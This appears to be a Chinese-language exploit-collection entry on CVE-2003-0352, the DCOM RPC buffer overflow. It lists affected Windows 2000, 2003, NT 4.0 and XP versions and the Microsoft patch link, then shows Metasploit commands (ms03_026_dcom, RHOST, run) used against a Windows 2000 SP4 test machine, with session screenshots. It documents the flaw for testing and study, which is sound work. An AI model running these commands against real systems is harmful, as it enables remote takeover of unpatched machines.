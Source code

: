 ###  CVE-2003-0352

#### 描述

某些RPC的DCOM接口中的缓冲区溢出使远程攻击者可以通过格式错误的消息执行任意代码

#### 影响版本

| Product             | Version           | Update | Edition           | Tested |
| ------------------- | ----------------- | ------ | ----------------- | ------ |
| Windows 2000        |                   |        |                   |        |
| Windows 2000        |                   | SP1    |                   |        |
| Windows 2000        |                   | SP2    |                   |        |
| Windows 2000        |                   | SP3    |                   |        |
| Windows 2000        |                   | SP4    |                   |        |
| Windows 2003 Server | R2                |        | 64-bit            |        |
| Windows 2003 Server | R2                |        | Datacenter 64-bit |        |
| Windows 2003 Server | WEB               |        |                   |        |
| Windows 2003 Server | Enterprise        |        | 64-bit            |        |
| Windows 2003 Server | Enterprise 64-bit |        |                   |        |
| Windows 2003 Server | Standard          |        | 64-bit            |        |
| Windows Nt          | 4.0               | SP1    | Server            |        |
| Windows Nt          | 4.0               | SP5    | Server            |        |
| Windows Nt          | 4.0               | SP4    | Enterprise Server |        |
| Windows Nt          | 4.0               |        | Enterprise Server |        |
| Windows Nt          | 4.0               | SP6    | Workstation       |        |
| Windows Nt          | 4.0               | SP2    | Workstation       |        |
| Windows Nt          | 4.0               | SP1    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP5    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP4    | Server            |        |
| Windows Nt          | 4.0               |        | Server            |        |
| Windows Nt          | 4.0               | Sp6a   | Enterprise Server |        |
| Windows Nt          | 4.0               | SP3    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP5    | Workstation       |        |
| Windows Nt          | 4.0               | SP1    | Workstation       |        |
| Windows Nt          | 4.0               | SP4    | Terminal Server   |        |
| Windows Nt          | 4.0               |        | Terminal Server   |        |
| Windows Nt          | 4.0               | Sp6a   | Server            |        |
| Windows Nt          | 4.0               | SP3    | Server            |        |
| Windows Nt          | 4.0               | SP6    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP2    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP4    | Workstation       |        |
| Windows Nt          | 4.0               |        | Workstation       |        |
| Windows Nt          | 4.0               | Sp6a   | Terminal Server   |        |
| Windows Nt          | 4.0               | SP3    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP6    | Server            |        |
| Windows Nt          | 4.0               | SP2    | Server            |        |
| Windows Nt          | 4.0               | SP1    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP5    | Enterprise Server |        |
| Windows Nt          | 4.0               | Sp6a   | Workstation       |        |
| Windows Nt          | 4.0               | SP3    | Workstation       |        |
| Windows Nt          | 4.0               | SP6    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP2    | Terminal Server   |        |
| Windows Xp          |                   |        | 64-bit            |        |
| Windows Xp          |                   |        | Home              |        |
| Windows Xp          |                   | Gold   | Professional      |        |
| Windows Xp          |                   | SP1    | 64-bit            |        |
| Windows Xp          |                   | SP1    | Home              |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2003-0352
```

#### 利用方式

测试系统windows 2000 sp4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf.png?raw=true)

查看系统信息

![CVE-2003-0352_win2000_x86_msf2](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf2.png?raw=true)

